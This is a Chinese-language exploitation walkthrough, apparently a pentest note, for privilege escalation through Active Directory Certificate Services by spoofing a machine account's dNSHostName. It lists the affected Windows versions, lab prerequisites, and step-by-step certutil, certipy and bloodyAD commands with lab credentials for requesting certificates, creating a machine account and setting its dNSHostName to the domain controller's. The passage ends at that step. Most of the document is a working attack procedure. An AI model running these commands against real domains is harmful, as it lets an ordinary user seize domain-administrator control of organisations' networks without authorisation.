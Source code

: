 ###	背景

当Windows系统的Active Directory证书服务（CS）在域上运行时，由于机器账号中的dNSHostName属性不具有唯一性，域中普通用户可以将其更改为高权限的域控机器账号属性，然后从Active Directory证书服务中获取域控机器账户的证书，导致域中普通用户权限提升为域管理员权限。

### 影响：

Win8.1、Win10、Win11、WinServer2012R2、WinServer2016、WinServer2019、WinServer2022等版本

### 前提条件：

1、一个域内普通账号
2、域内存在证书服务器
Kali添加访问域内信息 /etc/hosts
192.168.1.15 xiaodi.local
192.168.1.15 xiaodi-WIN-3C7SS32SQ6R-CA
192.168.1.15 WIN-3C7SS32SQ6R.xiaodi.local

### 利用

1、获取CA结构名和计算机名

```shell
certutil -config - -ping
```

2、域内信息

```shell
192.168.1.15
test Pass123
xiaodi-WIN-3C7SS32SQ6R-CA
WIN-3C7SS32SQ6R.xiaodi.local
```

3、申请低权限用户证书：

```shell
certipy req 'xiaodi.local/test:Pass123@WIN-3C7SS32SQ6R.xiaodi.local' -ca xiaodi-WIN-3C7SS32SQ6R-CA -template User -debug
```

4、检测证书

```shell
certipy auth -pfx test.pfx
```

5、创建一个机器账户：

```shell
python3 bloodyAD.py -d xiaodi.local -u test -p 'Pass123' --host 192.168.1.15 addComputer pwnmachine 'CVEPassword1234*'
```

6、设置机器账户属性(dNSHostName和DC一致)：

```shell
python3 bloodyAD.py -d xiaodi.local -u test -p 'Pass123' --host 192.168.1.15 setAttribute 'CN=pwnmachine,CN=Computers,DC=xiaodi,DC=local' dNSHostName '["WIN-3C7SS32SQ6R.xiaodi.local"]'
```
